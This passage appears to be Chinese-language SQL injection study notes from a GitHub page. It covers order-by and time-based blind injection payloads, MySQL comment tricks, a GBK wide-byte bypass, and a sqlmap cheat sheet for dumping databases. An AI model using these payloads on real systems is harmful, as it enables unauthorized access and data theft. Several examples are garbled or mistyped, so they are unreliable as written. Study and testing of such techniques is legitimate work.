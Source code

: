 - ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+----------+---------------------------
  | id | username | password                   
  +----+----------+---------------------------
  |  1 | 2        | 5                         
  |  1 | admin    | 51b7a76d51e70b419f60d34 |
  +----+----------+---------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+--------+---------------------------
  |id   |username| password                  
  +----+--------+---------------------------
  |  1  | admin- |51b7a76d51e70b419f60d3
  |  1  |    2   | 6                            +------+----------+-------------------------
  2 rows in set (0.01 sec)
  ```

#### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，**能用其他方法就不使用延时**。 
- 一般格式`if((bool),sleep(3),0)`和`or (case when (bool) then sleep(3) else 0 end)`
- 两个函数： 
- BENCHMARK(100000,MD5(1)) 
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%d%27 union select 1.2--+

10. 自动化注入工具

#### SQL注入工具

- sqlmap使用
  - 测试注入点  sqlmap  -u  "URL"
  - 爆数据库  sqlmap  -u  "URL"  --dbs
  - 查看当前库  sqlmap  -u  "URL"  --current -db
  - 显示数据表  sqlmap  -u  "URL"  -D 数据库 --tables
  - 显示字段      sqlmap  -u  "URL"  -D 数据库 -T 表  --columns
  - 脱库  sqlmap  -u  "URL"  -D 数据库 -T 表  -C "字段名1","字段名2"  --dump
  - 查看帮助   man  sqlmap
  - 查看注入点   sqlmap -r  1.txt 
  - 爆数据库   sqlmap -r  1.txt  --dbs    （注意在注入点后面加*）
  - 查看当前库  sqlmap  -r  1.txt  --current -db
  - 显示数据表   sqlmap   -r  1.txt   -D 数据库 --tables
  - 显示字段      sqlmap  -r  1.txt  -D 数据库 -T 表  --columns
  - 查看某字段数据  sqlmap  -r  1.txt  -D 数据库 -T 表  -C  “字段名，字段名”  --dump
- havij
- sqlid
